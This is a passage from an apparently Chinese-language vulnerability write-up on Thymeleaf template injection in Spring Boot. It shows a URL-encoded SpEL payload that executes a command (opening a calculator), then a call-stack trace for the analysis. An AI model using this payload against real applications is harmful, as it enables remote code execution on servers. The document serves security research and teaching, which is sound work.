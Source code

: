 ```java
__$%7bT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22)%7d__::.x/
```

成功弹窗

![image-20211121211631690](img/Thymeleaf模板注入.assets/image-20211121211631690.png)

### 漏洞分析

我们知道Spring Boot的解析流程，前面让系统处置，我们重点放在ModelAndView阶段，毕竟是该阶段将我们的恶意代码返回到Thymeleaf引擎中并进行解析执行SPEL表达式

经过调用，调用栈如下：

```
handle:87, AbstractHandlerMethodAdapter (org.springframework.web.servlet.mvc.method)
doDispatch:1067, DispatcherServlet (org.springframework.web.servlet)
doService:963, DispatcherServlet (org.springframework.web.servlet)
processRequest:1006, FrameworkServlet (org.springframework.web.servlet)
doGet:898, FrameworkServlet (org.springframework.web.servlet)
service:655, HttpServlet (javax.servlet.http)
service:883, FrameworkServlet (org.springframework.web.servlet)
service:764, HttpServlet (javax.servlet.http)
internalDoFilter:227, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilter:53, WsFilter (org.apache.tomcat.websocket.server)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:100, RequestContextFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:189, ApplicationFilterChain (org.apache.catalina.core)
doFilter:162, ApplicationFilterChain (org.apache.catalina.core)
invoke:197, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:540, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:135, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
```